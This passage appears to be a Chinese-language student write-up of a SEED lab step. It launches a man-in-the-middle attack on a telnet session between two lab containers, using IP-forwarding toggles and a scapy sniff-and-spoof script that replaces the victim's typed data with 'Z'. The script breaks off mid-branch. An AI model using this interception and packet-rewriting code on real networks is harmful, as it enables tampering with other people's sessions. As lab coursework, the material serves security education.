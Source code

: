 

 Step 4 (Launch the MITM attack).


首先让A远程登陆到B ，注意此时arp表中B的mac地址应该是M的mac地址

	M上,使A 连接到B
```
# sysctl net.ipv4.ip_forward=1
```

A
	telnet 10.9.0.6
	seed
	dees
![[40.png]]


先保持 IP转发 使得 a 连接到 b ，再关闭IP转发
M上
```
# sysctl net.ipv4.ip_forward=0
```

我们在主机M上运行我们的嗅探和欺骗程序（程序如下），这样对于从A发送到B的捕获包，我们欺骗一个包，但使用TCP不同的数据。对于从B到A的数据包（Telnet响应），我们不做任何更改，所以被欺骗的数据包与原始数据包完全相同。

```python
#!/usr/bin/env python3

from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"

def spoof_pkt(pkt):
	if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
		# Create a new packet based on the captured one.
		# 1) We need to delete the checksum in the IP & TCP headers,
		#    because our modification will make them invalid.
		#    Scapy will recalculate them if these fields are missing.
		# 2) We also delete the original TCP payload.

		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)

		#################################################################
		# Construct the new payload based on the old payload.
		# Students need to implement this part.

		if pkt[TCP].payload:
			data = pkt[TCP].payload.load # The original payload data
			# newdata = data # No change is made in this sample code
			# Telnet will always display Z.
			data_list=list(data)
			for i in range(len(data_list)):
				# if chr(data_list[i]).isalpha():
				data_list[i]=ord('Z')
			newdata = bytes(data_list)	
			#
			send(newpkt/newdata)
			
		else:
```